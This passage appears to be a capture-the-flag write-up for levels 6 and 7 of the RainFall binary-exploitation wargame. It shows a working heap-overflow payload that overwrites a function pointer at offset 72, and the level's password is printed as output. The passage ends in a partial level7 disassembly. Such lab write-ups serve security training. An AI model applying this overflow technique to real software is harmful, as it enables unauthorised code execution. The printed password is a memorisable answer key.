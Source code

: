 For the first step, I generated my input using the script `python -c "print 'B' * 73"`, which goves me the offset. I also learnt to do direct derefrencing using ` x/10x  *(int *)($esp+0x18)` to validate results
![image](https://hackmd.io/_uploads/H10TMUiHa.png)

The offset is 72, now I will append the address in my input to overwrite the function pointer with value `08048454`. `python -c "print 'B' * 72 + '\x08\x04\x84\x54'[::-1]"`. The password is `f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`

```
level6@RainFall:~$ ./level6 `python -c "print 'B' * 72 + '\x08\x04\x84\x54'[::-1]"`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
level6@RainFall:~$
```

## level7 
below is the objdump for level7 `0x80486e0, 0x8049960`
```
080484f4 <m>:
 80484f4:       55                      push   ebp
 80484f5:       89 e5                   mov    ebp,esp
 80484f7:       83 ec 18                sub    esp,0x18
 80484fa:       c7 04 24 00 00 00 00    mov    DWORD PTR [esp],0x0
 8048501:       e8 ca fe ff ff          call   80483d0 <time@plt>
 8048506:       ba e0 86 04 08          mov    edx,0x80486e0
 804850b:       89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 804850f:       c7 44 24 04 60 99 04    mov    DWORD PTR [esp+0x4],0x8049960
 8048516:       08
 8048517:       89 14 24                mov    DWORD PTR [esp],edx
 804851a:       e8 91 fe ff ff          call   80483b0 <printf@plt>
 804851f:       c9                      leave
 8048520:       c3                      ret

08048521 <main>:
 8048521:       55                      push   ebp
 8048522:       89 e5                   mov    ebp,esp
 8048524:       83 e4 f0                and    esp,0xfffffff0
 8048527:       83 ec 20                sub    esp,0x20
 804852a:       c7 04 24 08 00 00 00    mov    DWORD PTR [esp],0x8
 8048531:       e8 ba fe ff ff          call   80483f0 <malloc@plt>
 8048536:       89 44 24 1c             mov    DWORD PTR [esp+0x1c],eax
 804853a:       8b 44 24 1c             mov    eax,DWORD PTR [esp+0x1c]
 804853e:       c7 00 01 00 00 00       mov    DWORD PTR [eax],0x1
 8048544:       c7 04 24 08 00 00 00    mov    DWORD PTR [esp],0x8
 804854b:       e8 a0 fe ff ff          call   80483f0 <malloc@plt>
 8048550:       89 c2                   mov    edx,eax
 8048552:       8b 44 24 1c             mov    eax,DWORD PTR [esp+0x1c]
 8048556:       89 50 04                mov    DWORD PTR [eax+0x4],edx
 8048559:       c7 04 24 08 00 00 00    mov    DWORD PTR [esp],0x8
 8048560:       e8 8b fe ff ff          call   80483f0 <malloc@plt>
 8048565:       89 44 24 18             mov    DWORD PTR [esp+0x18],eax
 8048569:       8b 44 24 18             mov    eax,DWORD PTR [esp+0x18]
 804856d:       c7 00 02 00 00 00       mov    DWORD PTR [eax],0x2
 8048573:       c7 04 24 08 00 00 00    mov    DWORD PTR [esp],0x8
 804857a:       e8 71 fe ff ff          call   80483f0 <malloc@plt>
 804857f:       89 c2                   mov    edx,eax
 8048581:       8b 44 24 18             mov    eax,DWORD PTR [esp+0x18]
 8048585:       89 50 04                mov    DWORD PTR [eax+0x4],edx
 8048588:       8b 45 0c                mov    eax,DWORD PTR [ebp+0xc]
 804858b:       83 c0 04                add    eax,0x4
 804858e:       8b 00                   mov    eax,DWORD PTR [eax]
 8048590:       89 c2                   mov    edx,eax
 8048592:       8b 44 24 1c             mov    eax,DWORD PTR [esp+0x1c]
 8048596:       8b 40 04                mov    eax,DWORD PTR [eax+0x4]
```